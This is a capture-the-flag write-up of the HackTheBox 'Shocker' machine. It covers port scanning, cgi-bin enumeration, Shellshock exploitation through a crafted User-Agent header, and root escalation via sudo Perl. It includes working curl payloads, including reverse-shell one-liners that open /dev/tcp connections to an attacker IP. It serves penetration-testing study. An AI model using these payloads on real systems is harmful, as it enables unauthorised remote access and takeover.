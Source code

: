 # Shocker [HTB](https://app.hackthebox.com/machines/108)

![shocker-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shocker-01.png)

## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/hosts-02.png)


Now we can use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- shocker.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/nmap-res-03.png)

We have the following:

+ An Apache V2.4.18 Server on port 80.
+ An SSH server on port 2222.


Lets take a look at the web server and see what we can find. 


## Apache port 80

Lets open our browser and navigate towards `http://shocker.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/site-04.png)

Not much to see or do here, lets try directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/common.txti:FUZZ  -u http://shocker.htb/FUZZ
```

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/ffuf-05.png)


We can see we have a few interesting results. Primarly, the scan confirmed that CGI is enabled on the 
target. We could potentially exploit this. 

Certain versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

On such scenario is with cgi scripts. Sometimes cgi scripts store data received from HTTP headers inside 
enviorenment varaibles in order to generate dynamic content. Since we can control the data passed in the 
HTTP headers, we can leverage this to gain RCE.

To pull this off, we need to find a valid cgi script we can execute via the browser. From the `ffuf` scan
we can see that we dont have permissions to view the contents of the `cgi-bin` directory, so we have to 
enumerate some more. 

I use `ffuf` again, this time adding the `-e` switch to scan for possible file extensions:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://shocker.htb/cgi-bin/FUZZ -e .cgi,.php,.sh,.py,.pl
```

![script-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/script-06.png)


We got something. Lets check if its vulnerable:

```bash
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; echo; echo pwned"
```

![vuln-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/vuln-07.png)

It is. Now we can use a one liner reverse shell to get access to the system. 

First set up the listener: 

```
rlwrap nc -lnvp 443
```

Exploit with:

```
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.117/443 0>&1"
```

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shell-08.png)


## Privilege Escalation

Lets look for easy wins, like our `sudo` permissions:

```bash
sudo -l
```

![sudo-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/sudo-09.png)


WE can see we are allowed to run Perl. If we can run a scripting language as root, escalation is fairly trivial:

```perl
sudo perl -e 'exec "/bin/sh";'
```

![root-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/root-10.png)


From here we can setup another `nc` listener and upgrade this shell with:

```bash
bash -i >& /dev/tcp/<kali-ip>/9001 0>&1
```

![full-root-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/full-root-11.png)

